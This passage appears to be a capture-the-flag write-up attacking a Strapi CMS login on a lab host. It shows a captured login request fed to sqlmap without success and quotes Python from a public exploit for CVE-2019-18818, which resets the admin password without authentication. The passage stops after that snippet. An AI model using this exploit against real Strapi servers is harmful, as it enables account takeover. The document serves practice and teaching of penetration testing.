 A search on `exploit-db.com` for `strapi CMS` returned three possible vulnerabilities - an unauthenticated password reset and two RCEs, one requiring authentication and one not. However, I did not know the version of Strapi used here. I was unsure whether or not the exploits would work.

Before trying them out, since this is a log-in screen after all, SQL injection sprung into my mind. I booted up Burp Suite and sqlmap.

## Exploitation

### sqlmap with Burp Suite (rabbit hole)

I saved a random login request with Burp for use with sqlmap:

```
POST /admin/auth/local HTTP/1.1
Host: api-prod.horizontall.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://api-prod.horizontall.htb/admin/auth/login
Content-Type: application/json
Origin: http://api-prod.horizontall.htb
Content-Length: 44
DNT: 1
Connection: close

{"identifier":"admin","password":"password"}
```

However, sqlmap wasn't successful neither with the `identifier`, nor the `password` field.

Welp, time to try out that password reset and those RCEs.

### Set Password (Unauthenticated)

First of all, I tried [the password reset exploit](https://www.exploit-db.com/exploits/50237) (CVE 2019-18818). My reasoning was to try this first, and the RCE exploits after, specifically, the one that requires authentication, I thought it might have a higher chance of success than the one not needing authentication.

Unfortunately, the exploit's Python script did not work correctly out of the box, I was hit by an error regarding the json package used. Not wanting to mess around with installing a different version of Python or reinstalling different packages, I skimmed through the code and found a point of interest.

```python
	print("[*] Password reset for user: {}".format(userEmail))
	resetPasswordReq={"email":userEmail, "url":"{}/admin/plugins/users-permissions/auth/reset-password".format(strapiUrl)}
	s.post("{}/".format(strapiUrl), json=resetPasswordReq)

	# Set new password
	print("[*] Setting new password")
	exploit={"code":{}, "password":newPassword, "passwordConfirmation":newPassword}
	r=s.post("{}/admin/auth/reset-password".format(strapiUrl), json=exploit)
```
